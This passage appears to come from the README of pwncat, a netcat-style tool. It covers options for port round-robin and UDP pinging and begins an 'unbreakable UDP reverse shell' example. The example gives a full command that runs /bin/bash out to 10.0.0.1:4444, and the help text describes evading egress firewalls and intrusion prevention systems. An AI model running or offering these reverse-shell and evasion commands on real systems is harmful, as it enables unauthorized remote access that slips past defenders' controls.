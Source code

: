 ```
                        remote endpoint (via --reinit), this option instructs it
                        to also "round-robin" different ports to connect to. It
                        will stop iterating after first successfull connection
                        and stick with it or quit if --reinit limit is reached.
                        Use comma separated string: 80,81,82 or a range 80-100.
                        Set --reinit to at least the number of ports to probe +1
                        Set --reinit-wait to 0
                        This helps to evade EGRESS firewalls for reverse shells
                        Use with -z/--zero to probe outbound allowed ports.
                        Ensure to have enough listeners at the remote endpoint.

  --reconn-robin port   Connect mode (TCP only):
                        If the remote endpoint is gone after initial successful
                        connection, and the the client is set to reconnect with
                        (--reconn), it will connect back by "round-robin" to
                        different ports. It will stop after --reconn limit has
                        reached.
                        Set --reconn to at least the number of ports to probe +1
                        Set --reconn-wait to 0
                        This help your reverse shell to evade intrusion
                        prevention systems that will cut your connection and
                        block the outbound port.

  --reinit-wait s       Wait x seconds between re-inits. (default: 1)

  --reconn-wait s       Wait x seconds between re-connects. (default: 1)

  --udp-ping-intvl s    Connect mode (UDP only):
                        As UDP is stateless, a client must first connect to a
                        server before the server can communicate with it.
                        If you listen on UDP and wait for a reverse UDP client
                        or reverse UDP shell, you can only talk to it after it
                        has sent you some initial data, as UDP does not have a
                        "connect" state like TCP.
                        This option instructs the UDP client to send a single
                        newline every s seconds. By not only doing it once,
                        but in intervals, you can also maintain a connection
                        if you restart your listening server.

misc arguments:
  -h, --help            Show this help message and exit
  -V, --version         Show version information and exit
```


## :bulb: Examples

Find below some more detailed and advanced examples.


### Unbreakable UDP reverse shell
Why unbreakable? Because it will keep coming to you, also if you kill your listening server.
```bash
# The client
# --exec            # Provide this executable
# --nodns           # Keep the noise down and don't resolve hostnames
# --udp             # Use UDP mode
# --udp-ping-intvl  # Ping the server every 10 seconds

pwncat --exec /bin/bash --nodns --udp --udp-ping-intvl 10 10.0.0.1 4444
```
If you feel like, you can start your listener in full TRACE logging mode to figure out what's going on
```bash
```